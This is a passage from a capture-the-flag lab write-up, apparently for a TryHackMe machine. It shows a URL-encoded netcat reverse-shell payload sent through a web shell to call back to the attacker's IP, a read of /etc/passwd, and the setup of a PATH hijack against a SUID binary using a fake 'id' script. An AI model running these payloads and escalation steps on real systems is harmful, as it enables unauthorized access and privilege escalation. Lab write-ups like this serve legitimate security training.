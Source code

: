 We have command execution as the `www-data` user!

## Gaining a Reverse Shell

A web shell is nice, but a proper interactive reverse shell is way better. I used [revshells.com](https://www.revshells.com/) to generate a payload, URL-encoded it, and sent it with `curl`.

```bash
❯ curl -s 'http://files.lookup.thm/elFinder/php/shell.php?c=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%20[YOUR_IP]%204444%20%3E%2Ftmp%2Ff'
```

And just like that, a shell pops on my `netcat` listener. We're in!

```bash
www-data@ip-10-10-219-52:/home$ ls
ssm-user
think
ubuntu
```

## Privilege Escalation: Part 1 (www-data -> think)

I ran `linpeas.sh` on the machine and it highlighted a very interesting SUID binary: `/usr/sbin/pwm`.

```bash
www-data@ip-10-10-219-52:/usr/sbin$ ls -la pwm
-rwsr-sr-x 1 root root 17176 Jan 11  2024 pwm
www-data@ip-10-10-219-52:/usr/sbin$ ./pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found
```

Aha! The program helpfully tells us it's running the `id` command. If the developer didn't use an absolute path (like `/usr/bin/id`), the system will search for `id` in the directories listed in our `PATH` environment variable. This smells like a classic PATH Hijacking opportunity!

Let's check `/etc/passwd` to find a user to impersonate. The user `think` with UID/GID 1000 looks like a good target.

```bash
www-data@ip-10-10-219-52:/usr/sbin$ cat /etc/passwd | grep think
think:x:1000:1000:,,,:/home/think:/bin/bash
```

Now for the hijack. We'll create our own fake `id` script in `/tmp` (a world-writable directory) that outputs `think`'s user info. Then, we'll prepend `/tmp` to our `PATH`.

```bash
# Set our PATH so the system looks in /tmp first
export PATH=/tmp:$PATH

# Create a malicious 'id' script in /tmp
echo -e '#!/bin/bash\necho "uid=1000(think) gid=1000(think) groups=33(www-data)"' > /tmp/id

# Make it executable
chmod +x /tmp/id
```
